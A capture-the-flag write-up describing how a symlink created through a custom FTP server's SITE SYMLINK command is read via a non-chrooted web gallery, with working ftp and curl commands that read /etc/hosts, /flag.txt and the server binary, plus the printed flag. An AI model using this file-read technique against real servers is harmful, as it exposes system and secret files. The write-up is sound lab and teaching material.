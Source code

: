 # Services

On port `60498` there is a webserver running, serving some kind of Gallery.

On port `49542` there is an FTP server running.

Uploading something on the ftp side is visible on the web gallery. The description reveals the authentication logic as well.

![](screenshots/1.png)

# FTP

The FTP server is a custom one, adhering to the ProFTPd spec. 

The `HELP` command is not implemented, but after trial and error, it can be tested what is implemented.

<http://www.proftpd.org/docs/howto/FTP.html>

<http://www.proftpd.org/docs/howto/Chroot.html>

There is a command that can make symlinks, but you can not read them as there is a chroot jail implemented on the FTP.

```
SYMLINK
Used to create a symbolic link (a.k.a. a symlink) from the source path (src) to the destination path (dest).

Example:
  SITE SYMLINK src dest
```

# Web

There is no chroot jail implemented on the webserver side, therefore the uploaded symlink can be properly read there.

```bash
ftp ftp://anonymous:anonymous@10.10.1.10:49542
quote SITE SYMLINK /etc/hosts hosts
```
```bash
curl -v --path-as-is http://10.10.1.10:60498/download/hosts
```

The `/flag` file can be read with this method easily.

```bash
echo quote SITE SYMLINK /flag.txt flag.txt | ftp ftp://anonymous:anonymous@10.10.1.10:49542 && curl http://10.10.1.10:60498/download/flag.txt
```

![](screenshots/2.png)

# Flag
`CQ24{s0_sYmPle_tr1ck_y3t_n3vEr_Di5apPo1nt5}	`

# Server
The server binary was taken from the host as well this way with the help of procfs.

[ctf-gallery](workdir/src/ctf-gallery)
